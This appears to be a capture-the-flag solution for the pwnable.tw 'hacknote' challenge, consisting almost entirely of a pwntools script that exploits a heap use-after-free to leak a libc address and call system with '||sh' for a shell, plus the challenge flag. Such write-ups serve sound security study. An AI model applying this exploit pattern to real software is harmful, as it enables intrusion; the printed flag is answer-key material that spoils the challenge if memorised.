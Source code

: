 ```python 
# b*0x0804893d
# c
# ''')

# input()

p = remote('chall.pwnable.tw' ,10102)

output = 0x804862b
ptr = 0x0804A050
number = 0x0804A04C 

def add(size, data):
    p.sendafter(b'choice :', b'1')
    p.sendafter(b'size :', str(size))
    p.sendafter(b'Content :', data)

def delete(index):
    p.sendafter(b'choice :', b'2')
    p.sendafter(b'Index :', index)

def show(index):
    p.sendafter(b'choice :', b'3')
    p.sendafter(b'Index :', index)



add(0x508, b'a'*0x4) # 0
add(0x18, b'a'*0x4) # 1
delete(b'0')
delete(b'1')
add(0x8, p32(output)) # 2
show(b'0')
libc_leak = u32(p.recv(4))
libc.address = libc_leak - 0x1b07b0
print(hex(libc_leak))
print(hex(libc.address))

delete(b'2')
one_gadget = libc.address + 0x3a819
# 0x5f065 0x5f066
pop_rdi_rbp = 0x08048b0a 
add(0x8, p32(libc.sym['system']) + b'||sh')
show(b'0')

p.interactive()

# FLAG{Us3_aft3r_fl3333_in_h4ck_not3}
```

## Flag

FLAG{Us3_aft3r_fl3333_in_h4ck_not3}
